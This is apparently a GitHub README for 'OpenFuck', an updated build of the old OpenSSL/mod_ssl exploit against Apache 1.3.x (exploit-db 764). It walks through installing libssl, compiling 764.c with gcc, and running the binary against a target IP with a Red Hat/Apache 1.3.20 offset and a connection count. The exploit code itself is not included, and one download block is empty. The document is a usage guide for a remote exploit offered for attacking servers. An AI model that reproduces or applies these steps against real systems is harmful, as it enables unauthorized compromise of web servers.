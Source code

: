 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download 764.c
~~~

~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
